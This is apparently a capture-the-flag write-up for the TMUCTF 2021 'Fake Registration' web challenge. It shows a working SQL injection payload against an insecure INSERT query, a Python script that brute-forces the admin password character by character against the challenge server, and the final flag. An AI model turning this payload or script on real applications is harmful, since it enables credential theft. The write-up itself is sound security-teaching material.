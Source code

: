 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
In this challenge, we are given a registration page with the [server-side code](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Web/Fake%20Registration/Challenge%20Files/challenge.zip).
Open the `app.py` file. We see that the flag is the admin password.
In addition, the username and password entered by a user is stored in the database with an `insert` query.
Since this query is not written securely, it is possible to inject SQL commands through it.
As can be seen in the code, the length of each of the username and password fields is limited to 67.
Given this limitation, we try to obtain the correct payloads to extract information from the database.
The following payload, in addition to meeting the length limit, can help us to extract the admin password:
```
',(SELECT 1 FROM users WHERE id=1 AND substr(password,1,1)='T'))--
```
By entering this payload in the username field, the following message will be displayed to us:
<p align="center">
  <img src="Writeup Files/1.png">
</p>

As shown in this figure, the `UNIQUE constraint failed: users.username` error is shown.
So the character 'T' is the correct value of the first character of the admin password. 
If we run the above payload with any other character, the `NOT NULL constraint failed: users.password` error is displayed, which indicates that the character is incorrect (the character leads to an empty value for the password field).
Therefore, this payload can be run for different characters and finally, the admin password, which is the flag, is obtained.
The complete script for solving the challenge is as follows (also available in [solve.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Web/Fake%20Registration/Writeup%20Files/solve.py)).
```python
import requests

flag = []
for i in range(1, 69):
    for j in range(32, 127):
        payload = f"',(SELECT 1 FROM users WHERE id=1 AND substr(password,{str(i)},1)='{chr(j)}'))--"
        response = requests.post("http://130.185.123.246/register", data = {"username": payload, "password": "test"}, verify=False)
        if ("UNIQUE" in response.text):
            flag.append(chr(j))
            print(chr(j))
print("flag:", ''.join(flag))
```
The flag:
```
TMUCTF{P455w0rd5_mu57_b3_l0n6_4nd_c0mpl3x_l1k3_2MWn&p#FmjShTZXfAg:)}
```
